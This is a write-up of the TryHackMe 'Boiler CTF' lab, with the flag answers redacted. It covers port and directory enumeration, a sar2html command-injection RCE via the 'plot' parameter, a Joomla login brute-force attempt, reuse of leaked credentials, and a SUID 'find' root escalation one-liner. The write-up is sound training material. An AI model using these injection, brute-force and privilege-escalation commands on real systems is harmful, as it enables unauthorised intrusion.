

# Boiler CTF
```
---
title: "TryHackMe: Boiler CTF "
author: ["Mark Lawton ", "mark@mwlawton.uk"]
date: "20201104"
subject: "Boiler CTF"
keywords: [TryHackMe. THM, PenTest, OSCP, Report]
subtitle: "Writeup / PenTest report for Boiler CTF"
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classification: public
...
```
### ip= 10.10.1.24


### nmap 
```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.218
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Unix

```
## Task1
### Question1 
#### File extension after anon login
```
So we have FTP open lets see if it allows anonymous login?

We do have anonymous login
```
```
ftp boilerctf.thm                                                         
Connected to boilerctf.thm.
220 (vsFTPd 3.0.3)
Name (boilerctf.thm:bigmark): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
```
nothing in the directory, I thought I was doing something wrong until I remembered to check for hidden files and bingo 
```
```
ftp> ls -la
227 Entering Passive Mode (10,10,1,24,162,255).
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
```
```
Lets get the file and see what its about...
```
```
ftp> get .info.txt
local: .info.txt remote: .info.txt
227 Entering Passive Mode (10,10,1,24,180,154).
150 Opening BINARY mode data connection for .info.txt (74 bytes).
226 Transfer complete.
74 bytes received in 0.00 secs (1.4702 MB/s)
ftp> quit
221 Goodbye.

```
```
cat .info.txt                                                             
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
```
We can see this is ecrypted in  some way, so lets head over to cyberchef see if we can decrypt it
```


### Question2 
#### What is on the highest port?
```
For this we need to breakout nmap again as i'm guessing webmin is not the anwser for two questions.

nmap -Pn -p- boilerctf.thm
```
```
We find 
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
REDACTED/tcp open  unknown

but its unknown so lets continue to play...

nmap -Pn -sV -p REDACTED boilerctf.thm

see what we can get out of that
```
```
BINGO we found ssh on the port, possible attack vector? 

PORT      STATE SERVICE VERSION
REDACTED/tcp open  REDACTED     REDACTED Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```

### Question3 
#### What's running on port 10000?
```
We know from experience that port 10000 is REDACTED but the nmap scan confirms this.
```
### Question4 
#### Can you exploit the service running on that port? (yay/nay answer)
```
After some googling for admitedly much longer than I would like to admit according to the version provided there is REDACTED for this version of webmin 
```
### Question5
#### What's CMS can you access?
```
From the initial nmap scan we find port 80 open so lets break out gobuster and see what we can find
```
```
gobuster dir -u http://boilerctf.thm -w /usr/share/wordlists/dirb/common.txt -x .txt,.php 

with this we are going to be using gobuster to find any folders using the medium dirbuster wordlist that comes with kali 
if needed 
sudo apt install gobuster will install 

```
```
We find REDACTED running on port 80, not had a need to look at it yet however I do feel ill be making a visit soon?
```
### Question6 
####  Keep enumerating, you'll know when you find it.
```
no need for an answer
```
### Question7 
#### The interesting file name in the folder?
```
continuing to use gobuster we tagged -x php, txt, this will search for files with these extensions using the same wordlist
We got nothing out of that so lets try agsain this time on /REDACTED directory 

and lets head over to the REDACTED site 
```


```
nothing of much interest lets crack hydra out and see if we can brute force the administrator login 

googling for hydra snytax for Joomla I came across a nmap one liner, lets make it work for us...
```
```
nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=/usr/share/wordlists/rockyou.txt,http-joomla-brute.hostname=u14s,
http-joomla-brute.threads=3,brute.firstonly=true' boilerctf.thm

ok the nmap scan did not work as planned and i'm not going to spend to much time messing with it.
```
```
Back over at the gobuster scan, we have found some interesting folders

/_archive (Status: 301)
/_database (Status: 301)
/_files (Status: 301)
/_test (Status: 301)

Lets go and see what they are telling us!
```
### Joomla
```
out of all the _folders only one has a maining full website.
```


```
I didn't think much of this and started on a deep rabbit hole after remembering about robots.txt having a fair bit of information 
```


```
I honestly thought the above was an encypted key or password but not so... thanks MrSeth6797

At this point I thought about maybe ssh was my way in but something was pushing me back on the _test directory.
```
### _test
```
So as we seen sar2html stood out so lets look for exploits in that...

```

```
And we get a RCE exploit lets download and read it 

It is saying 

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.

lets have a test!
```
```
http://boilerctf.thm/joomla/_test//index.php?plot=;pwd
```

```
Success! 

Lets have a look around...

running ls shows a file called log.txt <-- this is also the answer to Question7
```

```
Lets cat the file 
```

```
As if by magic we have some credentials it looks like 
```
## Task2
### Question1
### Where was the other users pass stored(no extension, just the name)?
```
So lets login to the server remember the port ssh is on is not standard
```

```
need to make the shell stable lets find out if python is installed

python is installed so lets use 
```
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
```
Quick ls /home shows another user (stoner)
If we ls our user home folder we find a backup.sh script lets cat it and see what its trying to do 
```
```
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
[REDACTED]

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```
```
OK so we find the password for stoner lets see whats in their home directory
```
```
stoner@Vulnerable:/home/basterd$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```
```
Whats wrong with this guy lol... I love it really.
so far no sudo -l for either user and no user.txt file in  their home directories ... more investigations ....
```
```
So we managed to get linpeas.sh on to the box an run it 

we find some interesting files
```

```
Lets take a look...
stoner has permission to look that the .secret file 

basterd
cat: ../stoner/.secret: Permission denied

stoner@Vulnerable:~$ cat .secret
REDACTED

OK lets come back to that one 
```

```
We did find that SUID was set for find lets investigate 

sudo sh -c 'cp $(which find) .; chmod +s /usr/bin/find'
```
### Question2
### user.txt
```
As above 
stoner@Vulnerable:~$ cat .secret
REDACTED
```
### Question3
### What did you exploit to get the privileged user?
```
As found in the linpeas.sh REDACTED was the answer 
```
### Question4
### root.txt
```
We head over to GTFObins to find an exploit for find
running the below as stoner gets us to root

/usr/bin/find . -exec /bin/sh -p \; -quit

# cat /root/root.txt
REDACTED

```
